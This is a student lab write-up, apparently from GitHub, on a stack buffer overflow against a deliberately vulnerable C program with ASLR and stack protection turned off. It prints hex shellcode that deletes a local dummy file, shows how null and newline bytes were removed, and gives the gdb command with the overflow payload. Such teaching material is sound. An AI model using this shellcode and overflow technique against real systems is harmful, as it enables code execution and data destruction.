 # DELETE DUMMYFILE USING INJECTION CODE

## Target

- delete `dummyfile` file by using `buffer overflow` to `inject code` into `vuln.c` file

## Prepare for lab

- create `dummyfile` without format using:

  > touch dummyfile

![dummyfile](https://github.com/user-attachments/assets/db1e9ab7-52b7-474e-8a01-4991a18a1ef4)

- change to shell `/bin/sh`

  > sudo ln -sf /bin/zsh /bin/sh

- turn off OS’s address space layout randomization:

  > sudo sysctl -w kernel.randomize_va_space=0

![image](https://github.com/user-attachments/assets/29fe8640-cdb7-4a9d-9524-7838be81ed3d)

- compile and link the file_del.asm code using 2 commands:

  > nasm -g -f elf file_del.asm

  > ld -m elf_i386 -o file_del file_del.o

![image](https://github.com/user-attachments/assets/c7e84fbb-52b0-4863-af0c-b4bc439d2abf)

- hexstring of my file_del.asm using:

  > for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo

![image](https://github.com/user-attachments/assets/f23930c5-ad9e-406e-9e94-eb87887c517a)

- but we don't need `\xdummyfile` at the end, so we have:

  > \xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00

- stack frame of `vuln.c`.

![image](https://github.com/user-attachments/assets/64d7ba16-29b2-40fe-a45d-5631641d684a)

- compile the vuln.c program using:
  > gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2

## execution.

- I will set two breakpoint at `0x804843e` and `0x804846b`.

![image](https://github.com/user-attachments/assets/ae4ba6c8-5454-4496-b6e0-719d3f49bac0)

- If we want to execute the `file_del.asm` code on stack, we need to overflow the buffer so that `return address` points to the top of `esp` where the code will lies. It will be `36 bytes of hexstring + 32 padding bytes + 4 bytes of esp`. I will use `\xff\xff\xff\xff` to identify `ebp`, use command:

  > r $(python –c “print(‘\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00’ + ‘a’\*32 + ‘\xff\xff\xff\xff)”)

![image](https://github.com/user-attachments/assets/1253f489-0be7-4d8e-92cb-df4819e21b08)

- the address red is `ebp`.
- the address green is `Return Address`.

![image](https://github.com/user-attachments/assets/0814d4df-c394-47e2-a76a-17f833570a61)

- Comparing to the hexstring, the first three 3 values are the same buf after that everything is different and `Return Address` is not `\xff\xff\xff\xff`.

  1. we have `\x0a(/n)` in the hex string.
  2. `\x00` have problem in 32 bits register `eax`.

![image](https://github.com/user-attachments/assets/baa0c88c-3856-40f6-94cb-733da69a078b)

- In the `file_del.asm`:

![image](https://github.com/user-attachments/assets/33957858-16ac-43a9-81b3-2b2dca0a8288)

- The `\x0a` comes from the line `move eax, 10`.
- The `\x00` comes from `eax`. Because `eax` is 32 bits register so when we move a small value into `eax`, the high bits of this register (24 bits) will automatically be filled with `0`.

- We need to edit a few lines of code in `file_del.asm`:

  - Use `al` register. Because this is the lowest 8-bit part of the `eax` register. When you move a value into `al`, only 8-bits (1 byte) are changed, not affecting the rest of `eax`.
  - Clear the `eax` register using command:
    > xor eax, eax
  - Replace `move eax, 10` with:

    > mov al, 8

    > add al, 2

![image](https://github.com/user-attachments/assets/c2221627-8d88-4b5a-8489-64ee31d85943)

- We recompile `file_del.asm`, get the new hexstring and run the program.

  - The new hexstring is `\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00`

![image](https://github.com/user-attachments/assets/b30f4479-effe-45e9-9c94-c340c5c63c7c)

- At the end still `\x00`, I will change it to `\x01`. Now, the `Return Address` is `\xff\xff\xff\xff`.

![image](https://github.com/user-attachments/assets/0a7c8de4-3c63-4a73-9dd2-14ab107eb0e0)

- We will change the address `0xffffd63c`(the first `\xff`) to the address of `esp` `0xffffd5f8`, set the address `0xffffd61b` to `\x00` and `continue`.

![image](https://github.com/user-attachments/assets/6e88f068-8961-42ff-b1d6-d0a8adb0c714)

![image](https://github.com/user-attachments/assets/e00d6d0f-26ba-44be-9078-83cfaae87aec)

- But dummyfile has not been deleted yet!

- Look at `file_del`.

![image](https://github.com/user-attachments/assets/d7cebb4f-7810-415c-b5a2-8636bae20358)

- `dummyfile` is stored at address `0x0804807a` including bytes `64 75 6d 6d 79 66 69 6c 65 00`. The command `mov ebx,_filename` causes the `ebx` register to `point to the address of _filename` here which is `0x0804807a`. What we just "deleted" is to make the `ebx` register `no longer point to the address of _filename`, not delete the `dummyfile`. So we need to `set the address of dummyfile in the program to the address of ebx`.

![image](https://github.com/user-attachments/assets/dbfc0665-5987-4388-bc97-1c977203a004)
![image](https://github.com/user-attachments/assets/41ceb0ba-04c6-4e1d-9d61-f5583f89664b)

- `dummyfile` has been deleted. The lab is done.
